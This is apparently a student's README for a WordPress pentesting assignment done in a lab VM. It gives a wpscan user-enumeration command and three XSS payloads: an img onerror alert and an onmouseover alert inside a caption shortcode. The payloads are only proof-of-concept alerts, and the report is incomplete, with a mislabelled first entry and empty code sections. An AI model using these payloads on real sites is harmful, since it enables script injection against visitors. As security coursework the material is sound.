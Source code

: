 # Project 7 - WordPress Pentesting

Time spent: **17** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) WordPress Reflex Gallery User Enumeration
  - [X] Summary: 
   - Vulnerability types: User Enumeration
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
  <img src='vid1.gif' title='Video Walkthrough' width='' alt='Video Walkthrough' />

  - [X] Steps to recreate: 
 - Download the 3.1.3 zip file
 - Add the WordPress admin console through WP Dashboard. 
 - Once installed run "wpscan --url http://wpdistillery.vm --random-user-agent" into Kali
  - [X] Affected source code:
    - 
### 2. (Required) Cross-Site Scripting
  - [X] Summary: 
   - Vulnerability types: XSS
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate:
  Edit a new post, and insert  http:// site.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(2)> and press preview.  Then 2 will pop up in the new window. 
  - [X] Affected source code:
    
### 3. (Required) Cross-Site Scripting 
  - [X] Summary: 
   - Vulnerability types: XSS
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
  Edit a new post, and insert  http:// site.com/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror= alert(3)> and press preview.  Then 3 will pop up in the new window. 
  - [X] Affected source code:
   
### 4. (Optional) Cross-Site Scripting 
  - [X] Summary: 
   - Vulnerability types: XSS
   - Tested in version: 4.1-4.2.1
   - Fixed in version: 4.2.2
  - [X] GIF Walkthrough: 
  - [X] Steps to recreate: 
  Edit a new post, and insert  <a href="[caption code=">]</a><a title =" onmouseover=alert('Exploit 4!') "> click the link.</a> in the content link. Once you click the link the window will pop up. 
  - [X] Affected source code:
   

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Trying to configure my Kali was the hardest part of this assinment. 

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
